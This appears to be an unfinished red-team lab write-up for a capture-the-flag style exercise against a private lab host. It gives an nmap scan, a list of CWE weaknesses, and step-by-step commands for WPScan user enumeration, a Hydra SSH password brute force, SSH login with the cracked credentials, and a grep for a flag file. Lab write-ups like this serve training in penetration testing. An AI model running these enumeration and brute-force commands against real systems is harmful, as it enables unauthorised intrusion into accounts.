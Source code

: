 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Network Topology
![Network Topology](/Images/Final_project_top.JPG)

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sS 192.168.1.110
```
![Nmap Scan](/Images/NmapScan.png)


This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22	SSH
  - Port 80	http
  - Port 111	rpcbind
  - Port 139	netbios-ssn
  - Port 445	microsoft-ds

The following vulnerabilities were identified on each target:
- Target 1
  - CWE-200: Exposure of Sensitive Information to an Unauthorized Actor 
  - CWE-672: Operation on a Resource after Expiration or Release
  - CWE-521: Weak Password Requirements 
  - CWE-307: Improper Restriction of Excessive Authentication Attempts 
  - CWE-256: Unprotected Storage of Credentials
  - CWE-522: Insufficiently Protected Credentials
  - CWE-863: Incorrect Authorization Reverse shell vulnerability 

![SSHVuln](/Images/SSHVuln.png)

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33ellb80be759c4e844862482d
    - **Exploit Used**
      - WPScan to enumerate users
        - wpscan --url 192.168.1.110/wordpress/ --enumerate u
        - ![WPScan](/Images/WPScan.png)
      - Use Hydra to crack michael's password or guess password
        - hydra -l michael -P /usr/shar/wordlists/rockyou.txt 192.168.1.110 ssh
        - ![Hydra](/Images/Hydra.png)
      - Use stolen credentials to SSH into michael's account
        - ssh michael@192.168.1.110
        - Password: michael
      - Search for Flag1
        - grep -rnw ./ -e 'flag1' 2>/dev/null
        - ![flag1](/Images/Flag1.png)

  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a3e581c
    - **Exploit Used**
      - _TODO: Identify the exploit used_
      - _TODO: Include the command run_